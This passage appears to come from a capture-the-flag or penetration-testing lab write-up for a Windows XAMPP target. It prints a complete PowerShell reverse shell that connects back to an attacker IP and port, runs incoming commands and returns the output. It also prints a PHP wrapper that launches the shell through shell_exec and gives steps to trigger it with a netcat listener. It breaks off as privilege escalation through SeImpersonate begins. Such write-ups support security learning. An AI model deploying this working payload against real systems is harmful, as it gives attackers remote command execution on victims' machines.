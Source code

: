```
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.30',14243);
$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;
$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
$sendback = (iex $data 2>&1 | Out-String );
$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

- `C:\xampp\htdocs\sea\windows-php-reverseshell.php`:

```
<?php

$output = shell_exec('powershell -File C:\xampp\htdocs\sea\reverseshell-14243.ps1');
echo $output // True

?>
```

- Now, open netcat at port 14243 in another terminal and send a get request `GET /sea/windows-php-reverseshell.php`
  (using BurpSuite or whatever you want)

- We have received the connection as well as the privilege we acquire:

![img.png](img/img.png)

## 3.2 Get `SeImpersonate` to expand our privilege

- From our netcat listener port 14243, run the following commands:
